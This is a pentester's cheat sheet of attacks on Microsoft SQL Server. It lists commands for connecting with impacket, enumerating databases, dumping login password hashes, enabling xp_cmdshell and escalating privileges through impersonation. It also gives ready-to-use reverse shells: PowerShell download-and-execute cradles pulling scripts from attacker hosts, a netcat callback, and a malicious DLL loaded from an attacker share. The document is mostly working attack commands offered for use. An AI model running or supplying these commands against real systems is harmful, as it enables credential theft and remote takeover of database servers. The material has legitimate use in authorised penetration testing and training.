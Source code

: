 ```yaml
---
title: MSSQL
updated: 2025-05-12 06:23:40Z
created: 2025-04-19 12:07:07Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Tools for MSSQL Pentesting
**impacket-mssqlclient.py** – Auth + command execution
**PowerUpSQL** – AD + MSSQL post-exploitation
**nmap** --script ms-sql-*
**sqlcmd** – native tool for querying
**Metasploit** – auxiliary/admin/mssql/*

Connect to MSSQL server using **impacket**
Note: Force **NTLM** authentication instead of Kerberos:
`impacket-mssqlclient <user>:<password>@<target_IP> -windows-auth;`
* * *
## Version & User info
`SELECT @@version;` -- SQL Server version
`SELECT SYSTEM_USER;` -- Connected SQL user
`SELECT IS_SRVROLEMEMBER('sysadmin');` -- Check if user is sysadmin
`SELECT USER_NAME();` -- Current DB user
`SELECT USER;` -- Same as above
* * *
## Database Enumeration
`SELECT name FROM master..sysdatabases;` -- List databases
`SELECT name FROM sysobjects WHERE xtype='U';` -- Tables in current DB
`SELECT table_name FROM information_schema.tables;` -- Another way
`SELECT column_name FROM information_schema.columns 
WHERE table_name = 'users';` -- Columns in table
* * *
## Credential Dumping
`SELECT name, password_hash FROM sys.sql_logins;` -- Get SQL Server login hashes (if sysadmin)
**Note**: Requires **VIEW SERVER STATE** or **sysadmin** role.
* * *

## Data Exfiltration
`SELECT TOP 5 username, password FROM users;`
* * *
## Command Execution (via `xp_cmdshell`)
`EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
`EXEC xp_cmdshell 'whoami';`
`EXEC xp_cmdshell 'powershell -c "iex(new-object net.webclient).downloadstring(\"http://<evil>/Invoke-PowerShellTcp.ps1\")"';`
🔥 You can now run arbitrary system commands.
* * *
## Enable `xp_cmdshell` without Admin
If you're not sysadmin, try **privilege escalation**:
`EXECUTE AS USER = 'dbo';` -- or impersonate another user
`REVERT;`
Check impersonation options:
`SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
`SELECT distinct grantee_principal_id FROM sys.server_permissions;`
* * *

## Discover File System (if `xp_cmdshell` is enabled)
`EXEC xp_cmdshell 'dir C:\';`
`EXEC xp_cmdshell 'type C:\Users\Public\notes.txt';`
* * *
## Upload a File to the Server
Using BCP (bulk copy):
`EXEC xp_cmdshell 'bcp "SELECT ''cmd from attacker''" queryout C:\backdoor.txt -c -T -S localhost';`
* * *

## Connect Back / Reverse Shell
If `xp_cmdshell` works

`EXEC xp_cmdshell "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"` -- PowerShell reverse shell
`EXEC xp_cmdshell "C:\nc.exe -e cmd.exe <kali> <port>"` -- NetCat reverse shell
* * *
## UDF Shell (if `xp_cmdshell` is disabled)
Use a custom DLL UDF to get command execution:
1. Upload DLL via SMB or UNC path
2. Register UDF:
`EXEC sp_addextendedproc 'xp_cmdshell_hack', '\\attacker\share\malicious.dll';`
`EXEC xp_cmdshell_hack 'cmd.exe /c whoami';`







